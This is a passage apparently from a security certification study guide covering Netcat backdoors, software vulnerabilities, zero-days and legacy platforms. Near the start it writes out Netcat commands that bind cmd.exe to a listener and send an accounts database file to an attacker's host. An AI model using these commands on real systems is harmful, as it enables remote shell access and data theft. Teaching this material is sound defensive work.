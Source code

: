 Netstat can also establish connections with remote machines. To configure Netcat as a backdoor, you first set up a listener on the victim system (IP: 10.1.0.1) set to pipe traffic from a program, such as the command interpreter, to its handler:

- nc -l -p 666 -e cmd.exe

The following command connects to the listener and grants access to the terminal:

- nc 10.1.0.1 666

Used the other way around, Netcat can be used to receive files. For example, on the target system the attacker runs the following:

- type accounts.sql | nc 10.1.0.192 6666

On the handler (IP 10.1.0.192), the attacker receives the file using the following command:

- nc -l -p 6666 > accounts.sql

Topic 3B: Explain Security Concerns with General Vulnerability Types

Software Vulnerabilities and Patch Management

Software exploitation means an attack that targets a vulnerability in software code. An application vulnerability is a design flaw that can cause the security system to be circumvented or that will cause the application to crash. Typically, vulnerabilities can only be exploited in quite specific circumstances but because of the complexity of modern software and the speed with which new versions must be released to market, almost no software is free from vulnerabilities.

It is also important to realize that software vulnerabilities affect all types of code, not just applications:

- Operating system (OS): an application exploit will run with the permissions of the logged on user, which will hopefully be limited. A vulnerability in an OS kernel file or shared library is more likely to allow privilege escalation where the malware code runs with higher access rights (system or root).
- Firmware: vulnerabilities can exist in the BIOS/UEFI firmware that controls the boot process for PCs. There can also be bugs in device firmware, such as network cards and disk controllers. Finally, network appliances and Internet of Things (IoT) devices run OS code as a type of firmware.

Zero-Day and Legacy Platform Vulnerabilities

A vulnerability that is exploited before the developer knows about it or can release a patch is called a zero-day. These can be extremely destructive, as it can take the vendor some time to develop a patch, leaving systems vulnerable in the interim.

A legacy platform is one that is no longer supported with security patches by its developer or vendor. By definition legacy platforms are unpatchable. Such systems are highly likely to be vulnerable to exploits and must be protected by security controls other than patching, such as isolating them to networks that an attacker cannot physically connect to.

Impacts from Vulnerabilities

Vulnerabilities can lead to various data breach and data loss scenarios. These events can have serious impacts in terms of costs and damage to the organization’s reputation.

Data Breaches and Data Exfiltration Impacts

All information should be collected, stored, and processed by authenticated users and hosts subject to the permissions (authorization) allocated to them by the data owner. Data breach and data exfiltration describe two types of events where unauthorized information occurs:
